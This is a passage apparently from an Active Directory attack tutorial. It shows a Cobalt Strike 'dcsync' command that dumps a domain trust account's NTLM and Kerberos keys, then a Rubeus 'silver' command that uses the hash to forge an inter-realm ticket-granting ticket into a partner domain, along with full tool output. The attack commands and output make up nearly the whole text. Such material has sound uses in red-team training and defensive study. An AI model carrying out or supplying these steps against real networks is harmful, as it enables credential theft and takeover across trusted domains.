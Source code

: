 ```powershell
beacon> dcsync contoso.com CONTOSO\PARTNER$

Credentials:
  Hash NTLM: 6150491cceb080dffeaaec5e60d8f58d
    ntlm- 0: 6150491cceb080dffeaaec5e60d8f58d
    lm  - 0: a1542b43120fba746668d676b8e25f40

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : CONTOSO.COMkrbtgtPARTNER
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 48ceeb9986c09692d2200d6b8d4ba8ff0152a49a3507bee92bfc62281fa756fa
      aes128_hmac       (4096) : 7d6b3d1ace90c769bcaab80eaa8da70d
      des_cbc_md5       (4096) : 5d5e67259270abc4
```

> These hashes can then be used with Rubeus' `silver` command.  Trusts, even in modern versions of Windows, use RC4 encryption by default.  So we tend to use the NTLM hash here.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:6150491cceb080dffeaaec5e60d8f58d /nowrap

[*] Action: Build TGS

[*] Building PAC

[*] Domain         : CONTOSO.COM (CONTOSO)
[*] SID            : S-1-5-21-3926355307-1661546229-813047887
[*] UserId         : 1105
[*] Groups         : 513,1106,6102
[*] ServiceKey     : 6150491CCEB080DFFEAAEC5E60D8F58D
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 6150491CCEB080DFFEAAEC5E60D8F58D
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : partner.com

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'pchilds@CONTOSO.COM'

[*] AuthTime       : 18/03/2025 11:50:59
[*] StartTime      : 18/03/2025 11:50:59
[*] EndTime        : 18/03/2025 21:50:59
[*] RenewTill      : 25/03/2025 11:50:59

[*] base64(ticket.kirbi):

      doIFM[...snip...]mNvbQ==
```
